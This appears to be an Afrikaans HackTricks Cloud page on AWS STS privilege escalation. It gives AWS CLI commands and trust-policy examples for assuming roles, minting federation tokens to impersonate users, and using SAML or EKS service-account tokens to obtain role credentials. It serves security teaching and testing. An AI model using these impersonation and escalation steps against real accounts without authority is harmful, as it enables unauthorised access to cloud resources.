 # AWS - STS Privesc

<details>

<summary><strong>Leer AWS hak vanaf nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy wil sien dat jou **maatskappy geadverteer word in HackTricks** of **HackTricks aflaai in PDF-formaat** Kyk na die [**INSKRYWINGSPLANNE**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**Die PEASS Familie**](https://opensea.io/collection/the-peass-family), ons versameling van eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel jou haktruuks deur PRs in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslag.

</details>

## STS

### `sts:AssumeRole`

Elke rol word geskep met 'n **rolvertrouensbeleid**, hierdie beleid dui aan **wie die geskepte rol kan aanneem**. As 'n rol van dieselfde rekening sê dat 'n rekening dit kan aanneem, beteken dit dat die rekening toegang sal hê tot die rol (en moontlik **privesc**).

Byvoorbeeld, die volgende rolvertrouensbeleid dui aan dat enigiemand dit kan aanneem, daarom sal **enige gebruiker in staat wees om te privesc** na die toestemmings wat met daardie rol geassosieer word.
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": "sts:AssumeRole"
}
]
}
```
Jy kan 'n rol naboots deur dit uit te voer:
```bash
aws sts assume-role --role-arn $ROLE_ARN --role-session-name sessionname
```
**Potensiële Impak:** Privesc na die rol.

{% hint style="danger" %}
Let daarop dat in hierdie geval die toestemming `sts:AssumeRole` in die rol **aangedui moet word om misbruik te maak** en nie in 'n beleid wat aan die aanvaller behoort nie.\
Met een uitsondering, om 'n rol van 'n ander rekening **te aanvaar** moet die aanvallerrekening ook die **`sts:AssumeRole`** oor die rol hê.
{% endhint %}

### **`sts:GetFederationToken`**

Met hierdie toestemming is dit moontlik om geloofsbriewe te genereer om enige gebruiker te impersoneer:
```bash
aws sts get-federation-token --name <username>
```
Dit is hoe hierdie toestemming veilig gegee kan word sonder om toegang te gee om ander gebruikers te impersoneer:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "VisualEditor0",
"Effect": "Allow",
"Action": "sts:GetFederationToken",
"Resource": "arn:aws:sts::947247140022:federated-user/${aws:username}"
}
]
}
```
### `sts:AssumeRoleWithSAML`

'n Vertrouensbeleid met hierdie rol verleen **gebruikers wat geïdentifiseer is via SAML toegang om die rol te impersoneer.**

'n Voorbeeld van 'n vertrouensbeleid met hierdie toestemming is:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "OneLogin",
"Effect": "Allow",
"Principal": {
"Federated": "arn:aws:iam::290594632123:saml-provider/OneLogin"
},
"Action": "sts:AssumeRoleWithSAML",
"Condition": {
"StringEquals": {
"SAML:aud": "https://signin.aws.amazon.com/saml"
}
}
}
]
}
```
Om geloofsbriewe te genereer om die rol in die algemeen te impersoneer, kan jy iets soos die volgende gebruik:
```bash
aws sts  assume-role-with-saml --role-arn <value> --principal-arn <value>
```
Maar **verskaffers** mag hul eie **gereedskap** hê om dit makliker te maak, soos [onelogin-aws-assume-role](https://github.com/onelogin/onelogin-python-aws-assume-role):
```bash
onelogin-aws-assume-role --onelogin-subdomain mettle --onelogin-app-id 283740 --aws-region eu-west-1 -z 3600
```
{% endcode %}

**Potensiële Impak:** Privesc na die rol.

### `sts:AssumeRoleWithWebIdentity`

Hierdie toestemming verleen toestemming om 'n stel tydelike sekuriteitsvolmaggings te verkry vir **gebruikers wat geïdentifiseer is in 'n mobiele, webtoepassing, EKS...** met 'n web-identiteitsverskaffer. [Leer meer hier.](https://docs.aws.amazon.com/STS/latest/APIReference/API\_AssumeRoleWithWebIdentity.html)

Byvoorbeeld, as 'n **EKS-diensrekening** 'n **IAM-rol moet kan naboots**, sal dit 'n token hê in **`/var/run/secrets/eks.amazonaws.com/serviceaccount/token`** en kan die rol **aanneem en volmagte kry** deur iets soos:
```bash
aws sts assume-role-with-web-identity --role-arn arn:aws:iam::123456789098:role/<role_name> --role-session-name something --web-identity-token file:///var/run/secrets/eks.amazonaws.com/serviceaccount/token
# The role name can be found in the metadata of the configuration of the pod
```
{% endcode %}

### Federasie Misbruik

{% content-ref url="../aws-basic-information/aws-federation-abuse.md" %}
[aws-federation-abuse.md](../aws-basic-information/aws-federation-abuse.md)
{% endcontent-ref %}

<details>

<summary><strong>Leer AWS hak vanaf nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy wil sien dat jou **maatskappy geadverteer word in HackTricks** of **HackTricks aflaai in PDF-formaat** Kyk na die [**INSKRYWINGSPLANNE**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**Die PEASS Familie**](https://opensea.io/collection/the-peass-family), ons versameling van eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel jou haktruuks deur PRs in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslag.

</details>
